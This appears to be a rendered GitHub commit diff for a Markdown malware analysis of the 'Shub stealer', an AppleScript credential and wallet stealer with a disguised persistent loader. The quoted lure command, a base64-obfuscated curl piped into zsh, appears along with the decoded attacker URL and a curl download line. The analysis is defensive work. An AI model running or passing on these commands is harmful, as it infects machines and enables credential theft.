

Before and after one commit to userHonest/docs, a Markdown page: malware/shub-stealer.md, 3 parts joined by grey strips. GitHub-like rendering.

Commit message:
Refine formatting and content in shub-stealer.md
Updated formatting and removed unnecessary links in the analysis document.

````diff
--- a/malware/shub-stealer.md
+++ b/malware/shub-stealer.md
@@ -1,4 +1,4 @@
-# **Digital Analysis of [loader.sh](http://loader.sh) and payload.applescript**
+# **Digital Analysis of loader.sh and payload.applescript**
 
 Author: Gabriel Berrios
 Date: 26-03-2026
@@ -13,9 +13,10 @@ This malware consisted of **two distinct malicious components**:
 1\. **AppleScript stealer**: \- credential harvesting \- browser \+ wallet data collection \- staging and upload capability.
 2\. **Persistent loader**: \- disguised as Google updater \- runs every 60 seconds \- contacts C2 \- executes attacker-supplied code.
 
+
 # **Attack Chain**
 
-```shell
+```
 pasting malicious base64 commandafront edn templates
 → loader.sh
 → download and executes malicious applescript
@@ -36,35 +37,37 @@ osascript payload.applescript
 
 ```
 
+
 # **The Initial Phase**
+
 
 **Original post :**
 The blog that recommended the malicious command.
 
-```html
+```
 https://macdev.slab.com/public/posts/insta-%D1%96%D1%96-with-termina-%D1%96-g40n4aau?shr=6etwxr0gksp2ltctcqv7gom7 ( do not run in terminal )
 ```
 
 The blog gives a command that will trick the user to run this
 
-```html
+```
 echo "Downloading Update: https://support.apple.com/downloads/xprotect-remediator-150.dmg" && curl -s $(echo "aHR0cHM6Ly9kYXRhc3BoZXJlLnVzLmNvbS9kZWJ1Zy9sb2FkZXIuc2g/YnVpbGQ9NDkyZjllNTgzNThlOGUyYmM5ZTA0MTRmYTA3N2UxOTc=" | base64 -d) | zsh
 ```
 
 Decoding the file ends up with a malicious command that could potentially run a malicious script in the computer.
 
-```shell
+```
 echo "aHR0cHM6Ly9kYXRhc3BoZXJlLnVzLmNvbS9kZWJ1Zy9sb2FkZXIuc2g/YnVpbGQ9NDkyZjllNTgzNThlOGUyYmM5ZTA0MTRmYTA3N2UxOTc=" | base64 -d
 https://datasphere.us.com/debug/loader.sh?build=492f9e58358e8e2bc9e0414fa077e197
 ```
 
-# **Capturing  and Analyzing [loader.sh](http://loader.sh)**
+# **Capturing  and Analyzing loader.sh **
 
 The key point is that **loader.sh** is a delivery mechanism.
 
 The initial artifact captured from the incident was a shell script named loader.sh. The script itself was not the final payload. It contained a base64-encoded, gzip-compressed blob that decoded into a second shell script.
 
-```shell
+```
 curL -L -o loader.sh “https://datasphere.us.com/debug/loader.sh?build=492f9e58358e8e2bc9e0414fa077e197”
 ```
 
````
Also changed, not shown: other parts of malware/shub-stealer.md (+7 -4 lines).
